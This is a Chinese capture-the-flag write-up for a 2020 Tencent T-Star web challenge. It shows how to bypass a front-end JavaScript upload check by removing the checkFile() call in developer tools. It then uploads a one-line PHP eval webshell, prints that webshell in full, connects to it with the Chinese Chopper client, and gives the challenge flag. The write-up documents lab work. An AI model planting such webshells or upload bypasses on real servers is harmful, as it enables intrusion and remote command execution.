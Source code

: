 ```yaml
---
title: Web - 文件上传 JS 绕过
description: 2020 | 腾讯犀牛鸟网络安全 | T-Star-高校挑战赛 | Web
---
```


## 解题思路

- 题目需要上传一个`webshell`到服务器，但是前端有 JS 校验，导致只能上传图片<br>
![IMG ONLY](img/t_star_upload_bypass01.jpg)
  - `hack.php`
    ```bash
    <?php @eval($_POST['hack']);?>
    # hack 为菜刀连接使用的密码
    ```
- 使用开发者工具删除`onsubmit`中调用`checkFile()`函数的过程，然后就可以直接上传 PHP 文件<br>
![前端修改](img/t_star_upload_bypass02.jpg)
- 打开菜刀，添加 SHELL <br>
![连接服务器](img/t_star_upload_bypass03.jpg)
- 连接后，在`www`目录下可以看到名为`key`的文件<br>
![检索目录](img/t_star_upload_bypass04.jpg)
- 内容即为 FLAG：`key{K735c9f0D7ddc3b9}`